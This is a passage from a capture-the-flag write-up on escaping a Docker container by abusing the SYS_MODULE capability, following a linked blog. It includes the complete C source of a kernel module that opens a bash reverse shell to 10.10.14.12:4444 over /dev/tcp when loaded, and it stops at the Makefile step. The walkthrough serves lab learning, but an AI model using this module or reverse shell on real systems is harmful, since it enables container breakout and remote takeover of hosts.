 Here we got a root shell but unable to access root flag.

So while finding more details got one blog.

```bash
Informative :
https://blog.pentesteracademy.com/abusing-sys-module-capability-to-perform-docker-container-breakout-cf5c29956edd
```

## More Previlege Required

We need to follow the same step as mentioned in the blog.

**Step 1:** Check the capabilities provided to the docker container.

```java
root@c295f5911877:~# capsh --print
```

![](Images/Pasted%20image%2020210628140044.png)

**Step 2:** Find the IP address of the docker container.

**Step 3:** Write a program to invoke a reverse shell with the help of usermode Helper API.

Create a file in client PC called reverse-shell.c

```c
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");
char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/10.10.14.12/4444 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };
static int __init reverse_shell_init(void) {
return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}
static void __exit reverse_shell_exit(void) {
printk(KERN_INFO "Exiting\n");
}
module_init(reverse_shell_init);
module_exit(reverse_shell_exit)
```

**Step 4:** Create a Makefile to compile the kernel module.
